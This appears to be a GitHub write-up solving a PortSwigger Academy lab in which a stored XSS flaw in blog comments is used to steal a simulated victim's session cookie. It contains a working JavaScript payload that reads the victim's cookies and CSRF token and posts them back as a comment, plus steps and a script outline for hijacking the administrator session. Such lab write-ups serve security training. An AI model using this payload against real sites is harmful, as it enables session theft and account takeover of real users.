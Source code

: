 ### Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

_Note_  
_To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._

_Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie._

_____

Analysis and Exploit:

1. Tried to post the payload ```<script>alert(document.domain)</script>``` as comment and passed with no filter to block it

2. Insert a comment with hidden id (like "heregoesthecookie")
    - ```<p id="heregoesthecookie">Cookies go here</p>```

3. Script in comment to get the element id (above) and change the text with the cookie of the victim

```html
<script> var cookies = document.cookie; document.getElementById('heregoesthecookie').innerText=cookies </script>
```

Works only in line... only the victim can see the cookies... force it to post it as a comment

Payload
```html
<script>
document.body.onload = function() {
    // GET COOKIES
    var cookies = document.cookie;
    // GET CSRF TOKEN FROM HTML
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    // GET DOMAIN
    var domain = document.domain;
    // STORE VALUES NEEDED TO POST THE SCRIPT
    var details = {
        'csrf': csrf,
        'postId': 2,
        'comment': cookies,
        'name': 'victim',
        'email': 'victim@victim',
        'website': 'http://hack'
    };
    // PREPARE AN EMPTY ARRAY WHICH WILL BE FILLED WITH ENCODED VALUES FROM details
    var formBody = [];
    // ENCODED IN TURN EACH KEY/VALUE PAIR FROM DICTIONARY details
    for (var property in details) {
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        // ADD EACH PAIR TO THE ARRAY AND "JOIN" KEYS AND VALUES IN A STRING CONCATENATION
        formBody.push(encodedKey + "=" + encodedValue);
    }
    // CONCAT ARRAY VALUES WITH & CHAR
    formBody = formBody.join("&");
    // POST THE COMMENT
    fetch("https://"+domain+"/post/comment", {
        method: "POST",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: formBody
    });
}
</script>
```

4. Take note of the victim cookie (and secret) and use it to take over the victim session
     - Example:   
     secret=eo1IaaEn16knMWoC7UkViWb9aBZBHNA0; session=JzKAQpQKfCygWF4xfxdw8WZaYAWkS9NL

5. Check user identity
    - if ```<a href="/my-account?id=administrator">``` in the page: ok
    - if "Your username is: administrator" is **/my-account?id=administrator**: ok


_____

Script:

1. ARGUMENTS AND ERRORS

Take the URL as argument. If no argument or more than one are given, print usage instructions.

2. STORE PAYLOAD AS USER COMMENT

- POST **/post/comment**
- Params required:
    - csrf
    - postId
    - comment
    - name
    - email
    - website

csrf = get csrf token from **/post?postId=1**  
postId = 1  
comment = javascript payload  
name = random name (like _attacker_)  
email = random email (like _att@cker_)  
website = random website (like _http://hack_)  

3. EXTRACT COOKIE FROM USER'S COMMENTS

- GET **/post?postId=2** (or the postId value specified in the xss payload)

Since the target user (administrator) makes use of two cookies, secret and session, we can focus on those to find the right cookie to extract.  

```html 
<p>secret=eo1IaaEn16knMWoC7UkViWb9aBZBHNA0; session=JzKAQpQKfCygWF4xfxdw8WZaYAWkS9NL</p>
```

4. IMPERSONATE THE VICTIM

- GET **/**
- Params:
    - session=[cookie from step 3]

If ```<a href="/my-account?id=administrator">``` is in the page, it means the stolen session cookie is valid and from the user administrator.
